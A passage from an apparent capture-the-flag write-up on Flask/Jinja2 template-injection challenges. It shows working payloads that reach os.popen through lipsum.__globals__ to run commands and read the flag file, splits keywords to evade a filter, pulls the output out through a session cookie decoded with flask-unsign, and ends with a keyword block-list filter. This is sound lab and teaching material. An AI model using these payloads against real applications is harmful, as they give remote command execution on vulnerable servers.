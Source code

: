 The only problem here, is that we’re exceeding the length limit. This is where I got stuck, I kept searching and fuzzing for smaller payloads and ended up using `lipsum`.

```py
lipsum.__globals__.__os__.__popen__('id').read()
```

I then transformed it:

```py
lipsum['__glo' 'bals__']['os']['popen']('tail /flag')['re' 'ad']()
```

Our final payload is:

```py
{%if session.update({'f':lipsum['__glo' 'bals__']['os']['popen']('tail /flag')['re' 'ad']()})%}{%endif%}
```

```shell
$ python3 check_filterz.py
input: {%if session.update({'f':lipsum['__glo' 'bals__']['os']['popen']('tail /flag')['re' 'ad']()})%}{%endif%}
True
```

Finally, we submit it and get the cookie and decode it and get the flag \\o/

```shell
$ flask-unsign -d -c "eyJmIjoiY3Jld3s2ZjAyMWQwNWRiNTE1YTEyNGM5OTg1zmN1NTVlMGI2Yn0iLCJ1c2VyIjoiYWRtaW4ifQ.YlveoA.-EYuiEy5AxCtCGn68xioShVhVsg"
{'f': 'crew{6f021d05db515a124c9985fce55c0b6b}', 'user': 'admin'}
```

# EzChall Again (Web)

So this is pretty much the same challenge but with more filters, we’ll use almost the same techniques before just changing some stuff

```py
import string

UNALLOWED = [
 'class', 'mro', 'init', 'builtins', 'request', 'app','sleep', 'add', '+', 'config', 'subclasses', 'format', 'dict', 'get', 'attr', 'globals', 'time', 'read', 'import', 'sys', 'cookies', 'headers', 'doc', 'url', 'encode', 'decode', 'chr', 'ord', 'replace', 'echo', 'base', 'self', 'template', 'print', 'exec', 'response', 'join', 'cat','if', 'end', 'for', 'sum', '%s', '{}', '\\', '*', '&',"{{", "}}", '[]',"''",'""','|','==','~']


def check_filter(input):
    input = input.lower()
    if input.count('.') > 1 or input.count(':') > 1 or input.count('/') > 1 or input.count('%') > 2:
        return False
    if len(input) < 115:
        for char in input:
            if char in string.digits:
                return False
        for i in UNALLOWED:
            if i in input:
                return False
        return True
    return False
```
